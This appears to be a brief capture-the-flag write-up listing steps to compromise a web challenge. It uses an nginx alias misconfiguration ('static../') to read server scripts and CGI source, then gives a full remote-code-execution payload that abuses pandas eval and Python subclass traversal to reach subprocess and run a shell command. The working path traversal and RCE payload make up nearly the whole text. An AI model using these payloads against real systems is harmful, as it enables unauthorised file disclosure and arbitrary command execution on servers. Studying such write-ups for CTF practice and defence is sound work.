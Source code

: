 # Steps

- nginx misconfig makes you able to get `URL/static../docker-entrypoint.sh`
- You can get the python cgi files `URL/static../cgi-bin/search-currency.py`
- You can achieve an rce via pandas dataframe and get the output. @pd.eval  

- `PyCGI: OBEL'or[].__class__.__base__.__subclasses__()[145].__init__([].__class__.__base__.__subclasses__()[145]).__class__.__name__<'1'or@server.add_body([].__class__.__base__.__subclasses__()[145]._module.sys.modules["subprocess"].check_output(["ls","-l", "/"]).decode()).__class__.__name__<'a
